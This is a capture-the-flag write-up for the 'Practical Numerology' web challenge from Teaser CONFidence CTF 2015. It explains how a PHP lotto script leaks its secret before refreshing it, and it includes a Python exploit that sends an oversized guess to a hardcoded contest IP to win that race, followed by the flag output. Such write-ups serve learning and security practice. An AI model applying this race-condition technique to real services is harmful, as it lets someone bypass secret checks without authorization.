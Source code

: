 # Teaser CONFidence CTF 2015: Practical Numerology

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| Teaser CONFidence CTF 2015 | Practical Numerology | Web |    300 |

**Description:**
>*Here's a [lotto script](challenge/index.php), running on my old and slow computer. Can you pwn it?*

----------
## Write-up
### First look

The lotto script effectively does the following:

* It checks if the session (handled in PHP using cookies) contains the 'secret' variable, if not it generates a new secret
* It checks if the POST variable 'guess' is set, if so it compares the guess against the stored secret and if it matches we get the flag
* If it does not match, the secret is displayed and gets refreshed

So essentially we get a single shot at guessing the secret right.

Given that the secrets are, for all intents and purposes, generated securely:

>```php
>function generate_secret()
>{
>    $f = fopen('/dev/urandom','rb');
>    $secret1 = fread($f,32);
>    $secret2 = fread($f,32);
>    fclose($f);
>    
>    return sha1($secret1).sha1($secret2);
>}
>```

We will have to either somehow prevent the secret from being refreshed or be quick enough to submit it before it gets refreshed. The former could be possible with a [HEAD request](https://rdot.org/forum/showthread.php?t=1330) which will halt script execution at first output hence not executing the secret-refreshing code. Since our guess has to be submitted as a POST variable, however, this is not an option.

Looking at the code, however, we do see that in the case of a wrong guess the guess attempt itself is output too (being processed by htmlspecialchars first):

>```php
>echo "Wrong! '{$_SESSION['secret']}' != '";
>echo htmlspecialchars($guess);
>echo "'";
>
>$_SESSION['secret'] = generate_secret();
>```

Hence, if we make a request with a very large guess, we can buy ourselves some time between the display of the secret and its refreshing. So our exploit will consist of creating a session, making a very large guess, extracting the secret from the response and immediately closing the connection (since we can only have one connection per session) and submit the secret:

>```python
>#!/usr/bin/python
>#
># Teaser CONFidence CTF 2015
># Practical numerology (WEB/300)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>import socket
>import re
>
>url = '134.213.136.172'
>data = 'guess='
>
>payload1 = 'GET / HTTP/1.1\r\n'
>payload1 += 'Host: 134.213.136.172\r\n\r\n'
>
>payload2 = "POST / HTTP/1.1\r\n"
>payload2 += "Host: 134.213.136.172\r\n"
>payload2 += "Cookie: PHPSESSID={}\r\n"
>payload2 += "Content-Length: {}\r\n"
>payload2 += "Content-Type: application/x-www-form-urlencoded\r\n\r\n"
>payload2 += "{}"
>
>s = socket.create_connection((url, 80))
>s.send(payload1)
>cookie = re.findall('PHPSESSID=(.*);', s.recv(1500))[0]
>s.close()
>
>s = socket.create_connection((url, 80))
>guess = data + 'A'*1000000
>s.send(payload2.format(cookie, len(guess), guess))
>secret = re.findall("'(.*)' !=", s.recv(500))[0]
>s.close()
>
>s = socket.create_connection((url, 80))
>guess = data + secret
>s.send(payload2.format(cookie, len(guess), guess))
>print s.recv(2000).splitlines()[-1]
>s.close()
>```

Which produces the following output:

>```bash
>$ ./practicalnum_sploit.py 
>Lucky bastard! You won the flag! DrgnS{JustThinkOutOfTheBoxSometimes...}
>```